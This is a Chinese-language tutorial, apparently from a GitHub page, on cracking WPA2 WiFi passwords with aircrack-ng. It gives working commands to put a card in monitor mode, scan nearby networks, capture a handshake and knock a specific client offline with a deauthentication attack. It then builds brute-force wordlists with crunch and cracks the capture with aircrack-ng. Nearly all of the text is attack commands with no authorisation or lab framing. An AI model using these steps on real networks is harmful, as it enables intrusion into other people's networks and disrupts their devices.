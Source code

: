 ## wifi密码
1. sudo -i 
2. ifconfig
3. airmon-ng  
4. airmon-ng start wlan0  发起监听网卡
5. ifconfig
6. airodump-ng wlan0mon 扫描周边wifi（wlan0mon是上一步ifconfig查询出来的网卡名）
扫描出来的大概信息为 ： 
BSSID              PWR  Beacons    #Data, #/s  CH   MB   ENC CIPHER  AUTH ESSID                                                                                                                                                                                                                                                                                                                                                                      
 08:60:83:A4:88:90  -58        3      147   20   3  130   WPA2 CCMP   PSK  CMCC-2EFH                                                                                                                              
 EC:6C:B5:98:CA:40  -61        9       11    0   9  130   WPA2 CCMP   PSK  CMCC-208
扫描出来的wifi信息 原来抓包 ，需要用到bssid（mac地址）  和 ch （频段） 
7. 抓包到handshake （被动的抓包模式 需要有用户上下线 ，所以我们使用另外更快的方法,可以促进它加速完成）
airodump-ng -c 9 --bssid EC:6C:B5:98:CA:40  -w /home/kail/桌面/handshake wlan0mon

8. 使用ack死亡攻击 踢下线 ，WiFi有自动登入功能，重新登录我们就可以立马抓到包了

aireplay-ng -0 10 -a EC:6C:B5:98:CA:40 -c 30:03:C8:3B:D7:C7 wlan0mon 

    0 代表下线; 10 代表攻击10次 ; -a后面是mac地址 ;-c后面是我们上一步抓包的STATION ，代表设备

当抓包的终端头部出现 ...WPA handshake: EC:6C:B5:98:CA:40...  代表我们抓包成功了！
会在桌面上生成4-5个文件 ， 我们主要用到.cap文件
9.  准备字典  使用crunch工具进行 字典生成  优化规则
/usr/share/crunch/ 找到定义好的字符集  
1. 28.lalpha-numeric                = [abcdefghijklmnopqrstuvwxyz0123456789]
2. 40.mixalpha-numeric-all       = [abcdefghijklmnopqrstuvwxypqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789]

执行生成命令 :
crunch 8 8 /usr/share/crunch/charset.lst lalpha-numeric 
根据字符集生成密码 -o START 路径.txt 可以输出文件
表示 生成最短8个 最长8个 指定字符集规则的文件
crunch 8 8 /usr/share/crunch/charset.lst mixalpha-numeric-all

crunch 8 8 /usr/share/crunch/charset.lst mixalpha-numeric-all -b 1gb -o START /home/kail/
//生成指定字符串
crunch 8 8 abcdefghijklmnopqrstuvwxypqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789 -b 1gb -o START /home/kail/

crunch 8 8 abcdefghijklmnopqrstuvwxypqrstuvwxyz0123456789 -d 1 -b 1gb -o START /home/kail/

crunch 8 8 0123456789 -b 1gb -o START /home/kail/

10. 暴力破解 

跑本地字典 ： 
aircrack-ng -w /home/kail/passwords-1.txt -b EC:6C:B5:98:CA:40 /home/kail/桌面/handshake-0*.cap

aircrack-ng -w /root/00000000-99999999.txt -b EC:6C:B5:98:CA:40 /home/kail/桌面/handshake-0*.cap
跑生成的字典 ： 



    -w 后面是我们放在桌面的字典  -b后面是BSSID地址  以及我们抓包的文件地址